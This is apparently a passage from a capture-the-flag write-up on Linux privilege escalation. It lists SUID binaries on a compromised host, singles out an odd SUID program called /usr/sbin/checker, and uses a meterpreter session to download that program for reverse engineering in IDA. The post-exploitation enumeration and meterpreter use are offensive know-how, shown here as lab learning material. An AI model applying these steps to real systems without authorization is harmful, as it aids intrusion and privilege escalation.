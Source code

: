 ```console
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 43088 Mar  5 17:23 /bin/mount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26696 Mar  5 17:23 /bin/umount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /snap/core/8268/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/8268/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/8268/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/8268/bin/su
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /snap/core/8268/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/8268/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/8268/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/8268/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/8268/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 10  2019 /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/8268/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 106696 Dec  6  2019 /snap/core/8268/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/8268/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 Jan 27 14:28 /snap/core/9066/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/9066/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/9066/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/9066/bin/su
-rwsr-xr-x 1 root root 27608 Jan 27 14:28 /snap/core/9066/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/9066/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/9066/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/9066/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/9066/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/9066/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jan 31 18:37 /snap/core/9066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Nov 29  2019 /snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/9066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 110792 Apr 10 16:44 /snap/core/9066/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Feb 11 15:40 /snap/core/9066/usr/sbin/pppd
```


this file looks interesting !!! `-rwsr-sr-x 1 root root 8432 May 26 18:27 /usr/sbin/checker` when I try to run it
```
$ checker
checker
Not an Admin
```

let use meterpreter to **download** it and open/revers engi with IDA.

```
meterpreter > download /usr/sbin/checker
[*] Downloading: /usr/sbin/checker -> checker
[*] Downloaded 8.23 KiB of 8.23 KiB (100.0%): /usr/sbin/checker -> checker
[*] download   : /usr/sbin/checker -> checker
```
